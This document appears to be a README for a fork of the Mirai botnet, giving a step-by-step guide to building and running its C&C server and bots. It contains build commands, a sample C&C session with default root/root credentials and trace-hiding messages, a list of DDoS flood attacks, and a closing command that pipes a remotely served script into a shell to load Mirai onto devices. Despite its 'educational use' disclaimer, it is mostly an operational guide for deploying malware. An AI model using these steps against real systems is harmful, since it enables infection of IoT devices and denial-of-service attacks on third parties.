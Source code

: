 # Initial Commit
The initial commit was a copy of glowman554's source code.
https://github.com/Glowman554/mirai
Commits on Mar 17, 2023
98784169693d5bdc426630561eaccf46ea2e42c0

# Second Commit
The second commit was a copy of yuudai-g's source code.
https://github.com/yuudai-g/mirai
Commits on Mar 31,2023
ef32d999dd4049f384c7c5cc285c84f660d11c1c

# Mirai setup

## What we used:
- A working DNS (and DHCP) server (Debian 11 with `dnsmasq` installed)
- A working Mirai Bot (Ubuntu 22.04)
- A working Mirai C&C server (Ubuntu 22.04)
- An infection target that can use Telnet to log in with credentials contained in Mirai's login table (Debian 9 with `cowrie` installed)
- A working Mirai ScanReceiver (Ubuntu 22.04)

## What we will do
The goal is to setup and run mirai in an local environment.  
But a disclaimer at the beginning: Do not use this to actually attack somebody its only for educational use.
<br><br>

## Setup tools
### First we need to install some packages  

```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen dialog python3 apache2 -y
```
<br>

### The next step is to install the cross compilers
```
sudo bash ./tools/compilers.sh
```
<br>

**Now please restart your bash for those changes to take effect**
<br>


### Now we can compile it for the first time :D
```
bash ./setup.sh
bash ./build.sh debug telnet
```
<br>

### Now we need to setup the database it's easy trust me.
Simply run:
```
cat ./tools/db.sql | sudo mysql
```
<br>

Now restart mysql to make sure all changes are loaded:
```
sudo systemctl restart mysql
```
<br>

### Now we need to change some settings.  
Simply run and type in your domain and dns server:
```
python3 setup.py
```
<br>

### Now we can compile it for the second time :D
```
bash ./build.sh debug telnet
```
<br>

### Now its time to setup pihole
To do this you need to login into pihole and go to Local DNS/DNS Records and type in the domain you used earlier in this tutorial and the ip of the server where the cnc is supposed to run on. **Don't forget to click on add!**
<br>

### And finlay we can run it!
To run the cnc use:
```
cd debug
screen -S mirai-cnc sudo ./cnc
```
<br>

To run a bot use:
```
cd debug
screen -S mirai-bot sudo ./mirai.dbg
```
<br>

To connect to the cnc using telnet use:
```
telnet localhost

You will be asked to login you can do that with the user we inserted earlier into the database it should look something like:

я люблю куриные наггетсы
пользователь: root
пароль: root

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
root@botnet#
```
<br>

Finaly to see a list of attacks type:
```
root@botnet# ?
Available attack list
udp: UDP flood
dns: DNS resolver flood using the targets domain, input IP is ignored
stomp: TCP stomp flood
greip: GRE IP flood
greeth: GRE Ethernet flood
vse: Valve source engine specific flood
syn: SYN flood
ack: ACK flood
udpplain: UDP flood with less options. optimized for higher PPS
http: HTTP flood
```
<br>

### But wait there is more
We didn't see how to attack iot devices yet but first of all we need to compile the release binary's:
```
bash ./build.sh release telnet
```
<br>

Let's install the binary's to apache2:
```
cd release
sudo bash ../apache2.sh
```
<br>

Now lets run the cnc:
```
cd release
sudo screen -dmS mirai-cnc ./cnc
```
<br>

If you did everything right you can now load mirai onto a device with:
```
curl http://<your ip>/bins/bins.sh |sh
```
<br>
